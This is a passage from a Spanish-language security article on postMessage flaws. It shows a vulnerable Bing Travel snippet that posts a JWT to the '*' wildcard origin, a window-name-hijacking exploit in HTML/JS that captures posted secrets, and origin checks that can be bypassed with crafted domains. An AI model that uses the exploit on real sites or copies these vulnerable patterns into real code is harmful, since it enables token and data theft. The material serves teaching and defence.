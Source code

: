 Microsoft identificó casos donde tokens de autenticación eran enviados sin validación de origen:[^1]

```javascript
// Código vulnerable encontrado en Bing Travel
this.recorderModalIframe.contentWindow.postMessage(
  {accessToken: this.userAuthJwt}, 
  "*" // Wildcard peligroso
);
```

Un atacante puede interceptar estos tokens creando un iframe malicioso que escuche estos mensajes.[^1]

### Ataques Avanzados: Window Name Hijacking

Esta técnica explota ventanas con nombres predecibles:[^8]

**Página Vulnerable:**

```javascript
function start() {
  w = window.open("/win", "PREDICTABLE_NAME", "popup");
  setTimeout(() => {
    w.postMessage("SECRET_DATA", "*")
  }, 1000)
}
```

**Explotación:**

```html
<iframe src="https://victima.com/%00" name="PREDICTABLE_NAME"></iframe>
<script>
onclick = () => {
  window.open("https://victima.com");
  frame.onload = () => {
    frame.srcdoc = `<script>
      onmessage = (e) => alert('Robado: ' + e.data)
    <\/script>`;
  };
};
</script>
```

## Problemas en Validación de Origen

### Validaciones Incorrectas Comunes

**1. Uso Incorrecto de startsWith/endsWith:**

```javascript
// VULNERABLE
if (event.origin.startsWith("https://confiable.com")) {
  // Bypass: https://confiable.com.atacante.com
}

// VULNERABLE  
if (event.origin.endsWith(".confiable.com")) {
  // Bypass: https://cualquiera.confiable.com.atacante.com
}
```


[^1]: https://msrc.microsoft.com/blog/2025/08/postmessaged-and-compromised/
[^2]: https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage
[^3]: https://stackoverflow.com/questions/2187103/xss-security-communication-between-2-iframes-from-the-same-domain
[^4]: https://www.radware.com/cyberpedia/application-security/iframe-injection-xss/
[^5]: https://qrvey.com/blog/iframe-security/
[^6]: https://www.yeswehack.com/learn-bug-bounty/introduction-postmessage-vulnerabilities
[^7]: https://infosecwriteups.com/behind-the-message-two-critical-xss-vulnerabilities-in-zohos-web-applications-86aa42887129
[^8]: https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation
[^9]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^10]: https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages
[^11]: https://cqr.company/web-vulnerabilities/dom-xss-using-web-messages/
[^12]: https://www.browserstack.com/guide/csp-bypass
[^13]: https://www.vaadata.com/blog/content-security-policy-bypass-techniques-and-security-best-practices/
[^14]: https://secinfodb.wordpress.com/2016/06/11/postmessage-sophisticated-csrf/
[^15]: https://trustfoundry.net/2024/07/30/a-quick-introduction-to-postmessage-xss/
[^16]: https://portswigger.net/burp/documentation/desktop/testing-workflow/input-validation/xss/web-message-dom-xss
[^17]: https://web.dev/articles/sandboxed-iframes
[^18]: https://www.less-secure.com/p/cross-origin-attacks-types-examples.html
[^19]: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking
[^20]: https://abrictosecurity.com/attacks-you-should-know-about-cross-origin-resource-sharing/
[^21]: https://cybercx.com.au/blog/post-message-vulnerabilities/
[^22]: https://www.reflectiz.com/blog/iframe-security/
[^23]: https://akimbocore.com/article/html5-cross-domain-messaging-postmessage-vulnerabilities/
[^24]: https://nvd.nist.gov/vuln/detail/CVE-2024-10858
[^25]: https://writeups.io/summaries/detailed-technical-analysis-of-sandbox-iframe-xss-challenge-solution/
[^26]: https://www.secureideas.com/blog/being-safe-and-secure-with-cross-origin-messaging
[^27]: https://nvd.nist.gov/vuln/detail/CVE-2024-55541
[^28]: https://qualityminds.com/en/angular-security-part-2-proactive-xss-protection-with-the-iframe-sandbox/
[^29]: https://www.linkedin.com/posts/bijaysenihang_what-is-cross-origin-messaging-attack-in-activity-7333377395040653312-RDv6
[^30]: https://wpscan.com/vulnerability/7fecba37-d718-4dd4-89f3-285fb36a4165/
[^31]: https://jscrambler.com/blog/improving-iframe-security
[^32]: https://www.geeksforgeeks.org/javascript/how-to-avoid-receiving-postmessages-from-attackers/
[^33]: https://www.reddit.com/r/reactjs/comments/1cfmkrs/iframe_security_risk/
[^34]: https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/
[^35]: https://stackoverflow.com/questions/50480198/how-to-correctly-postmessage-into-an-iframe-that-has-sandbox-attribute-enabled
[^36]: https://hackerone.com/reports/398054
[^37]: https://portswigger.net/research/using-form-hijacking-to-bypass-csp
[^38]: https://www.cobalt.io/blog/csp-and-bypasses
[^39]: https://ahmed-tarek.gitbook.io/security-notes/pentesting/wep-pen/owsap-top-10/software-and-data-integrity-failures/postmessage-vulnerabilities/postmessage-vulnerabilities
[^40]: https://infosecwriteups.com/dom-xss-exploit-using-postmessage-and-json-parse-in-iframe-attacks-fc312eaa48c2
[^41]: https://projectdiscovery.io/blog/csp-bypass-dast-nuclei-templates-v10-1-5
[^42]: https://notes.theoffsecgirl.com/04-hacking-web/04c-ataques-al-cliente
[^43]: https://notes.theoffsecgirl.com/03-descubrimiento-y-fuzzing/03b-explotando-git-expuesto
[^44]: https://notes.theoffsecgirl.com/04-hacking-web/04d-redirecciones-inseguras
[^45]: https://jub0bs.com/posts/2023-05-05-smorgasbord-of-a-bug-chain/
[^46]: https://jlajara.gitlab.io/Dom_XSS_PostMessage
[^47]: https://techcommunity.microsoft.com/blog/microsoft-entra-blog/how-to-break-the-token-theft-cyber-attack-chain/4062700
[^48]: https://www.cs.utexas.edu/~shmat/shmat_ndss13postman.pdf
[^49]: https://payatu.com/blog/postmessage-vulnerabilities/
[^50]: https://cybercx.com/blog/postmessage-vulnerabilities/
[^51]: https://bugbase.ai/blog/exploiting-post-message-vulnerabilities-for-fun-and-profit
[^52]: https://stackoverflow.com/questions/56604306/how-is-window-postmessage-secure
[^53]: https://docs.prismacloud.io/en/enterprise-edition/policy-reference/sast-policies/javascript-policies/sast-policy-74